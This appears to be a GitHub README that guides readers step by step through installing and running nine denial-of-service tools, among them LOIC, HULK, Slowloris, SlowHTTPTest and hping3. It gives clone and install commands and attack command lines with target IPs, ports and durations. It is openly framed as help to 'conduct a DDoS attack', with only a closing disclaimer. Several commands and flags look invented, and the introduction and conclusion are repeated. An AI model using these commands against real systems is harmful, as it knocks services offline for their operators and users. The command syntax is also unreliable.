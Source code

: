 # DDoS-Tools
DDoS (Distributed Denial of Service) attacks are a type of cyber attack where multiple compromised systems flood a targeted server or network with traffic, overwhelming it and rendering it unavailable to legitimate users. In this writeup, we will guide you through the process of setting up and using various DDoS tools to conduct a DDoS attack.


# How to Install and Use DDoS Tools

Introduction:
DDoS (Distributed Denial of Service) attacks are a type of cyber attack where multiple compromised systems flood a targeted server or network with traffic, overwhelming it and rendering it unavailable to legitimate users. In this writeup, we will guide you through the process of setting up and using various DDoS tools to conduct a DDoS attack.

Prerequisites:
- A Linux machine with at least 2 GB of RAM and a stable internet connection.
- Basic knowledge of command-line interface (CLI).

### Installation and Usage:
1. LOIC (Low Orbit Ion Cannon):
   - Install Mono on your Linux machine.
     ```bash
     sudo apt-get install mono-complete
     ```

   - Download the latest version of LOIC from the official GitHub repository.
     ```bash
     wget https://github.com/NewEraCracker/LOIC/releases/download/v2.1.2/loic_2.1.2.zip
     ```

   - Unzip the downloaded file.
     ```bash
     unzip loic_2.1.2.zip
     ```

   - Navigate to the unzipped directory.
     ```bash
     cd loic_2.1.2
     ```

   - Launch LOIC with the following command:
     ```bash
     mono LOIC.exe
     ```

   - In the LOIC interface, select the desired attack type (e.g., HTTP Flood) from the drop-down menu.
   - Enter the target IP address or domain name in the "IP/Domain" field.
   - Enter the target port number in the "Port" field.
   - Set the desired number of connections in the "Connections" field.
   - Set the duration of the attack in the "Duration" field (in seconds).
   - Click the "Start" button to start the attack.
   - Monitor the attack progress in the LOIC interface.
   - To stop the attack, click the "Stop" button.

2. HULK (High-Level Unconventional Load Killer):
   - Install HULK on your Linux machine.
     ```bash
     pip install hulk
     ```

   - Use HULK with the following command:
     ```bash
     hulk -a <attack-type> -t <target-ip> -p <target-port> -d <duration>
     ```

   - Example:
     ```bash
     hulk -a http -t 192.168.1.100 -p 80 -d 60
     ```

3. DDOS-Ripper:
   - Install DDOS-Ripper on your Linux machine.
     ```bash
     git clone https://github.com/palahsu/DDoS-Ripper.git
     cd DDoS-Ripper
     ./install.pl
     ```

   - Use DDOS-Ripper with the following command:
     ```bash
     perl DRipper.pl -s <target-ip> -p <target-port> -t <attack-type> -d <duration>
     ```

   - Example:
     ```bash
     perl DRipper.pl -s 192.168.1.100 -p 80 -t http -d 60
     ```

4. Torshammer:
   - Install Torshammer on your Linux machine.
     ```bash
     git clone https://github.com/dotfighter/torshammer.git
     cd torshammer
     ./install.sh
     ```

   - Use Torshammer with the following command:
     ```bash
     ./torshammer.py -t <target-ip> -p <target-port> -r <requests-per-second> -d <duration>
     ```

   - Example:
     ```bash
     ./torshammer.py -t 192.168.1.100 -p 80 -r 1000 -d 60
     ```

5. Slowloris:
   - Install Slowloris on your Linux machine.
     ```bash
     git clone https://github.com/gkbrk/slowloris.git
     cd slowloris
     perl slowloris.pl -dns <target-domain> -timeout 10
     ```

   - Example:
     ```bash
     perl slowloris.pl -dns example.com -timeout 10
     ```

6. PyLoris:
   - Install PyLoris on your Linux machine.
     ```bash
     git clone https://github.com/NoLegalTech/pyloris.git
     cd pyloris
     pip install -r requirements.txt
     ```

   - Use PyLoris with the following command:
     ```bash
     python pyloris.py <target-ip> <target-port> <number-of-sockets>
     ```

   - Example:
     ```bash
     python pyloris.py 192.168.1.100 80 1000
     ```

7. DDoSX:
   - Install DDoSX on your Linux machine.
     ```bash
     git clone https://github.com/Bilalcaliskan/DDoSX.git
     cd DDoSX
     pip install -r requirements.txt
     ```

   - Use DDoSX with the following command:
     ```bash
     python3 DDoSX.py -t <target-ip> -p <target-port> -d <duration>
     ```

   - Example:
     ```bash
     python3 DDoSX.py -t 192.168.1.100 -p 80 -d 60
     ```

8. SlowHTTPTest:
   - Install SlowHTTPTest on your Linux machine.
     ```bash
     git clone https://github.com/shekyan/slowhttptest.git
     cd slowhttptest
     ./configure
     make
     ```

   - Use SlowHTTPTest with the following command:
     ```bash
     ./slowhttptest -c <concurrent-connections> -H -r <requests-per-second> -t <duration> -u <target-url>
     ```

   - Example:
     ```bash
     ./slowhttptest -c 100 -H -r 1000 -t 60 -u http://example.com
     ```

9. Hping3:
   - Install Hping3 on your Linux machine.
     ```bash
     sudo apt-get install hping3
     ```

   - Use Hping3 for DDoS attacks with the following command:
     ```bash
     hping3 -S <target-ip> -p <target-port> -i u<interval-in-ms> -c <number-of-packets>
     ```

   - Example:
     ```bash
     hping3 -S 192.168.1.100 -p 80 -i u1000 -c 10000
     ```

### Disclaimer:
Please note that conducting a DDoS attack is illegal and unethical. The use of these tools should be done with caution and for educational purposes only. The author is not responsible for any misuse or damage caused by the tools.

Remember to obtain proper authorization from the target system before conducting any DDoS attack.

### Conclusion:
By following this writeup, you should now have a basic understanding of how to install and use various DDoS tools. Remember to conduct such attacks responsibly and with proper authorization.

This writeup provides a comprehensive guide on how to install and use various DDoS tools. It covers installation steps, command usage, and provides examples for each tool. Remember to conduct DDoS attacks responsibly and with proper authorization.
